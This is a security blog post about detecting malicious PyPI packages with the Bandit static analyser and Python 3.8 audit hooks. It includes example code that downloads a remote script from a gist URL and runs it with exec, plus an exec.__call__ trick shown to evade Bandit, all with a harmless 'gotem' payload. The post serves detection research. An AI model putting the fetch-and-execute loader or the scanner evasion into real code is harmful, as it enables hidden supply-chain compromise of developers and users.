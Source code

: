 ```yaml
---
layout: post
title:  "Using Python Bandit to find dodgy packages"
date:   2020-01-11 12:00:00 +0000
categories: python codereview
---
```


# Overview
[Myself](https://www.youtube.com/watch?v=V1_mg5cZsd8) and [plenty](https://medium.com/@bertusk/detecting-cyber-attacks-in-the-python-package-index-pypi-61ab2b585c67) of [others](https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/) have spoken about the increasing amount of
malicious packages masquarading as legitimate in Python's PyPi package repository. These packages end up as dependecies to legitimate programs, compromising developers and end users.

A common pattern in these packages is to download a 2nd stage script from the web, then passing it into `eval` or `exec` to execute the 2nd stage, for example:
```python

import urllib.request
script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
exec(script)   # script == "print('gotem')"
```

# Detection
One way to detect this type of attack to scan packages using [PyCQA's Bandit](https://github.com/PyCQA/bandit). This is a static analysis tool, and can be used to scan projects and files to security issues. One of the issues it can scan for it `B307 - use of exec`. Running it over a file containing the above snipped produces the following output
```bash
$> bandit suspicious.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious.py
Run started:2020-01-12 09:32:50.575932

Test results:
>> Issue: [B310:blacklist] Audit url open for permitted schemes. Allowing use of file:/ or custom schemes is often unexpected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:2
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b310-urllib-urlopen
1       import urllib.request
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------
>> Issue: [B102:exec_used] Use of exec detected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:3
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b102_exec_used.html
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------

Code scanned:
        Total lines of code: 3
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 2.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 2.0
Files skipped (0):
```

We can see it picked up on two things:
1. The use of `urllib.request.urlopen` to get data from the internet
2. The use of `exec`

Both of these things might be legitimate: If you use a tool such as my [Bandit Scan](https://github.com/pathtofile/Bandit-Scan) to scan PyPi,
you'll quickly see that plenty of legitimate packages use for `urlopen` and `exec` all the time.

Bandit does have a very useful `--baseline` option, that enables you compare a package to a "trusted good" version.
This enables developers to scan for any changes to dependecies, and only investigate if this change, drastically reducing the noise.

# Evasion
Bandit does currently suffer from one flaw however. If we instead change our dodgy code to:
```python
sneaky = 'import urllib.request; script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read(); exec(script)'
exec.__call__(sneaky)
```

And run bandit again, we get:
```bash
$>bandit suspicious_sneaky.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious_sneaky.py
Run started:2020-01-12 09:34:24.153035

Test results:
        No issues identified.

Code scanned:
        Total lines of code: 2
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
Files skipped (0):
```

Our code is now listed as benign by Bandit.
This is due to Bandit only looking for direct uses of the `exec` function, and not us calling the function's internal
`__call__` function (which effectively does the same thing).

I currently have a [pull request](https://github.com/PyCQA/bandit/pull/552) to fix this, but in the meantime, which will also flag any other uses of `__call__`,
as this is not usual to do.

# Python 3.8 Audit Hooks
On top of static analysis, using Python 3.8's audit hooks to analyse code as it runs would also surface the dodgy behaviour.

If you subscribe the python audit hook, such as using my [PyAuditLogger](https://github.com/pathtofile/pyauditlogger),
and run the `suspicious_sneaky.py` file, you will get (amungst other things) these events:
```xml
<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: compile</Data> 
  <Data>b'print("gotem")'</Data> 
  <Data>'<string>'</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.connect</Data> 
  <Data><socket.socket fd=832, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0></Data> 
  <Data>('151.101.64.133', 443)</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.getaddrinfo</Data> 
  <Data>'gist.githubusercontent.com'</Data> 
  <Data>443</Data> 
  <Data>0</Data> 
  <Data>1</Data> 
  <Data>0</Data> 
</EventData>
```

Highlighting in plain-view we connected to `gist.githubusercontent.com`, got some data from it, and eventually ran `print("gotem")`.
The downside to the Audit hooks is again fiding the interesting things in the sheer volume of data.
But only looking at the `compile`, `socket`, and `exec` events could be a good place to start, especially if events going into a SIEM.

# Conclusion
By combining dynamic and static code analysis, we stand a good chance of detecting suspicious beheaviour in Python Packages.
But there is a real and ongoing challenge of finding the dodgy-needle in the haystack that is millions of packages across PyPi.
